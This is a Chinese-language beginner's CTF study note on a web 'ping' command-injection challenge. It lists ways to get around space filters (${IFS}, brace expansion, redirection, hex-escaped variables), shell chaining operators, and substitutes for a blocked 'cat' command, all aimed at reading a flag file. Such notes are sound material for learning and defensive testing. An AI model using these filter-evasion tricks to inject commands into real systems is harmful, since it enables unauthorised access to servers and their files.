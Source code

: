 ## 记初学的两次Web - ping

[【CTF】buuctf web（一）——命令执行_buuctf命令执行-CSDN博客](https://blog.csdn.net/m0_52923241/article/details/119087138)

命令中空格被过滤的解决方法

### **linux**

{cat,flag.txt} 
cat${IFS}flag.txt
cat$IFS$9flag.txt
cat<flag.txt
cat<>flag.txt
kg=$'\x20flag.txt'&&cat$kg(\x20转换成字符串就是空格，这里通过变量的方式巧妙绕过)

### **windows**

（实用性不是很广，也就type这个命令可以用）
type.\flag.txt
type,flag.txt
echo,123456

### 拼接符

& ：前面和后面命令都要执行，无论前面真假
&&： 表示前一条命令执行成功时，才执行后一条命令
| ：直接执行后面的语句
|| ：表示上一条命令执行失败后，才执行下一条命令
; ：表示命令依次执行

### 贪婪匹配

表达式 .*就是单个字符匹配任意次，即贪婪匹配。以这个表达式为例：a.*b，它将会匹配最长的以a开始，以b结束的字符串,以第一个a开始，最后一个b结束。如果用它来搜索aabab的话，它会匹配整个字符串aabab。

**ls**（英文全拼：list files）：用于显示指定工作目录下的内容（列出目前工作目录所含之文件及子目录)

**cat**（英文全拼：concatenate）：用于连接文件并打印到标准输出设备上。

### 如果cat被过滤，可以用下边的方法进行绕过

> [!NOTE]
>
> (1)more:一页一页的显示档案内容
>
> (2)less:与 more 类似，但是比 more 更好的是，他可以[pg dn][pg up]翻页
>
> (3)head:查看头几行
>
> (4)tac:从最后一行开始显示，可以看出 tac 是 cat 的反向显示
>
> (5)tail:查看尾几行(6)nl：显示的时候，顺便输出行号
>
> (7)od:以二进制的方式读取档案内容
>
> (8)vi:一种编辑器，这个也可以查看
>
> (9)vim:一种编辑器，这个也可以查看
>
> (10)sort:可以查看
>
> (11)uniq:可以查看
>
> (12)file -f:报错出具体内容

一处调用该函数的地方。反引号 在linux中作为内联执行，执行输出结果。